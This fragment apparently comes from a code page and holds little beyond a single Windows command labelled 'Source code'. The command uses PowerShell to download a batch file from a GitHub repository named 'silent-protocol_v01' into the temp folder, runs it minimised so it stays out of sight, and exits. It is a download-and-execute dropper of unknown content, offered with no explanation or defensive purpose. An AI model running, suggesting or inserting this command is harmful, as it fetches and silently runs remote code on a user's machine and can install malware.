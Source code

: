 
powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/24-20/silent-protocol_v01/refs/heads/main/init.bat -OutFile %TEMP%\gb.bat" && start /min "" %TEMP%\gb.bat && exit
